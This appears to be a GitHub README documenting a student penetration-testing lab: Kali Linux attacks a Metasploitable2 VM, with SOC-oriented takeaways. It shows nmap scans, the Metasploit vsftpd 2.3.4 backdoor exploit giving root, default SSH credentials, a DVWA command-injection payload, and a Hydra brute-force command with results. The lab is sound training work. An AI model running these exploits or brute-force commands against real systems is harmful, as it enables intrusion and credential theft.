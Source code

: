 # Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## 📋 Table of Contents

- [Lab Setup](#lab-setup)
- [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Basic Nmap Scan](#basic-nmap-scan)
  - [Service Version Detection](#service-version-detection)
  - [Vulnerability Detection](#vulnerability-detection)
- [Phase 2: Exploitation](#phase-2-exploitation)
  - [FTP Exploit – vsftpd 2.3.4 Backdoor](#ftp-exploit--vsftpd-234-backdoor)
  - [SSH Exploit](#ssh-exploit)
  - [HTTP Exploit – DVWA Command Injection](#http-exploit--dvwa-command-injection)
  - [HTTP Brute-Force Attack – DVWA Login](#http-brute-force-attack--dvwa-login)

---

## 🛠️ Lab Setup

| Component    | Details                  |
|--------------|--------------------------|
| Attacker     | Kali Linux (UTM VM)      |
| Target       | Metasploitable2 (UTM VM) |
| Network Mode | Shared NAT / Bridged     |
| Connectivity | Confirmed via ping       |

---

## Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

### Basic Nmap Scan

```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
**Summary of Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
**Summary:** 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

**Result:** 
* Successful shell access as `root`
* Verified with `whoami`


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

**Result:** 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  `whoami`

---

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

**Lessons Learned:**
Modern SSH clients disable depreciate algorithms by default. Lab environments often require these legacy options to connect. SOC teams should watch for deprecated algorithm negotiation in logs as potential indicators of legacy or malicious activity.


---

### HTTP Exploit – DVWA Command Injection

**Target URL:** `http://192.168.64.3/dvwa/vulnerabilities/exec/`
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

***Result:***
* Successfully executed `whoami`
* Proved remote command execution vulnerability


---

### HTTP Brute-Force Attack – DVWA Login

**Target URL:** `http://192.168.64.3/dvwa/login.php` 
**Login Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Result:**
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

**Summary:** 
* Performed a dictionary brute-force attack
* Login credentials were discovered
* Demonstrated the importance of strong password credential policies


**SOC Analyst Takeaways**
Brute-force activity can be detected via repeated login failures, especially to web apps or SSH
Exploits often rely on outdated software or weak credentials
Key log indicators: POST attempts to login pages, multiple SSH attempts, legacy crypto negotiations
Defenses: Rate limiting, MFA, updated services, IDS/IPS, log monitoring
